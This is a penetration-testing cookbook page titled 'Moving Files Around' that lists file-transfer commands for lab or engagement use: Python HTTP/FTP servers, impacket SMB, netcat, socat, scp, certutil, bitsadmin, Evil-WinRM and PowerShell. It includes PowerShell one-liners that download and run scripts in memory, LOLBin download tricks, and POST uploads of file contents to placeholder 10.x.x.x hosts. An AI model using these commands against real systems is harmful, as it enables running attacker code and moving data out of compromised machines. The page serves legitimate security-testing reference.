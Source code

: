 ```yaml
---
layout: default
title: Moving Files Around
parent: COOKBOOKS
has_children: false
has_toc: false
---
```


{% include toc.html %}

## Local web server
```
// Python 2
python -m SimpleHTTPServer

// Python3
python3 -m http.server
python3 -m http.server <port>
python3 -m http.server --bind 172.x.x.x 443
python3 -m http.server --bind 172.x.x.x --directory tools/ 443
```

See [this link](https://floatingoctothorpe.uk/2017/receiving-files-over-http-with-python.html) for creating a `http.server` that accepts `PUT` requests. Use with something like:

```
curl -X PUT -T file-to-upload http://<IP>:<port>/
```

<br />

## Local FTP server
```
// Python 3
python3 -m pyftpdlib
python3 -m pyftpdlib --interface=172.x.x.x -p4433
python3 -m pyftpdlib --interface=172.x.x.x -p4433 -username=user --password='pass' --directory=tools/ --verbSMB server
```

<br />

## Local SMB server
```
Main issue is trying to bind Windows to a non-standard port number. Running on the standard port requires sudo which is a pain.
// Sudo required for access to lower port.
sudo impacket-smbserver -username user -password pass -smb2support Shared tools/

// Sudo not required for higher port, this proves troublesome for Windows though.
impacket-smbserver -username user -password pass -port 4343 -smb2support Shared tools/
```

<br />

## PHP
```
php -r '$f = file_get_contents("http://10.x.x.x/script.sh"); file_put_contents("script.sh",$f);'
```

<br />

## Netcat
Note there are multiple implementations of Netcat: netcat, ncat and nc to name a few.

```
// On sender.
nc -q0 10.x.x.x 4343 < file.in
compress -c file.in | nc -q0 10.x.x.x 4343

// On receiver.
nc -lp 4343 > file.out
nc -lp 4343 | uncompress > file.out
```

<br />

## Socat
```
// On sender.
socat -u FILE:file.in TCP:10.x.x.x:4343

// On receiver.
socat -u TCP-LISTEN:4343 OPEN:file.out,creat,trunc
```

<br />

## Secure Copy
Assumes ssh access.

```
// Copy file from target to local folder.
scp user@10.x.x.x:file.in /local/folder/

// Copy directory from target to local folder.
scp -r user@10.x.x.x:/remote/folder /local/folder/

// Copy local file to remote target.
scp file.local user@10.x.x.x;/remote/folder/

// Copy local folder to remote target.
scp -r /local/folder/ user@10.x.x.x /local/folder/

// Copy remote file to remote target.
scp from-user@10.x.x.x:/source/folder/ to-user@10.y.y.y:/dest/folder/ 
```

<br />

## Windows certutil.exe
```
certutil -urlcache -f http://10.x.x.x/file.exe out.exe
certutil -verifyctl -split -f http://10.x.x.x/file.exe
```

<br />

## Windows BITS
```
// Download resource from web server or SMB share.
bitsadmin /transfer n http://10.x.x.x:443/file.exe C:\Users\Public\Downloads\file.exe
```

<br />

## PowerShell
### DownloadString
```
// Download and execute in memory using Invoke-Expression (IEX).
IEX(New-Object Net.WebClient).DownloadString('http://10.x.x.x:80/resource.ps1')

// Download and execute in memory using IEX.
(New-Object Net.WebClient).DownloadString('http://10.x.x.x:80/resource.ps1') | IEX
```

### DownloadFile
```
// Download and save file locally.
(New-Object Net.WebClient).DownloadFile('http://10.x.x.x:80/resource.ps1', "C:\Users\Public\Downloads\resource.ps1")
```

### Invoke-WebRequest
```
// Download.
Invoke-WebRequest http://10.x.x.x:80/resource.ps1 -OutFile resource.ps1

// Download and execute in memory.
Invoke-WebRequest http://10.x.x.x:00/resource.ps1 | IEX

// Download, ignore IE not having been run errors
Invoke-WebRequest http://10.x.x.x:80/resource.ps1 -UseBasicParsing | IEX

// Upload to POST enabled HTTP server.
$data = [System.Convert]::ToBase64String((Get-Content -Path 'C:\Users\Public\Downloads\dir.txt' -Encoding Byte))
Invoke-WebRequest -Uri http://10.x.x.x:80 -Method POST -Body $data
```

### Start-BitsTransfer
```
// Import the module.
Import-Modile bitstransfer

// Download.
Start-BitsTransfer -Source "http://10.x.x.x/file.exe" -Destination "C:\Users\Public\Downloads\file.exe"

// Upload (check the available options for this).
Start-BitsTransfer "C:\Users\Public\Downloads\file.exe" -Destination "http://10.x.x.x/file.exe" -TransferType Upload
```

### Windows Misc
```
// Test for the following aliases:
curl
wget 
```

<br />

## Evil-WinRM
```
// Upload local file to remote.
*Evil-WinRM* PS C:\> Upload local.file remote.file

// Download remote file to local.
*Evil-WinRM* PS C:\> Download remote.file local.file
```

## Misc
If you have a shell and the files are small, you can convert them to `base64` and copy/paste between windows.

